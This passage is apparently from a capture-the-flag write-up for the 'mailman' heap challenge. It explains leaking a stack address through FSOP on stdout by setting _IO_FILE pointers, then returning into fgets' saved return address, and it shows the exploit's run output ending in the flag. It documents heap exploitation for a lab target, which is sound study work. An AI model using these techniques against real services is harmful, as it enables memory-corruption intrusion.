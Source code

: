 We'll perform this attack with FSOP on stdout to leak the stack address pointed by `envrion`.

### File Structure

I'll cover this in detail when I started solving File Structure Exploits but for now this is all you need to know: 

```c
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */

  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */

  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */
```
![filest](https://github.com/user-attachments/assets/949e983f-b669-4c17-8937-27a0a25465b1)

Or if we set `char* _IO_read_end` and `char* _IO_write_base` the beginning of a memory that we want to write out and we set `chat* _IO_write_ptr` to the end of that value and everything else to `NULL`, we will be able to leak out a value of our choosing.

With this we'll get a stack leak and now we just need to ROP from somewhere.. main() doesn't exit, so I targeted *fgets()* saved_rip and wrote out the flag to sdtout.

```
[+] Starting local process './mailman_patched': pid 14129
mangled ptr: 0x563bb7a0b38f
demangled ptr: 0x563ed44df750
libc base at: 0x7fad66800000
cleaning tcache and smallbins...
environ at:  + 0x7fad66a21200
stdout at: + 0x7fad66a1a780
stack leak: 0x7ffe9a52c7d8
saved rip of fgets(): 0x7ffe9a52c650
[*] '/home/tokyoking/Downloads/imaginaryctf23/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
[*] Loaded 218 cached gadgets for './libc.so.6'
[*] Switching to interactive mode
ictf{i_guess_the_post_office_couldnt_hide_the_heapnote_underneath_912b123f}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
$  
```
### Helpful Resources
[glibc 2.35 source code](https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L349)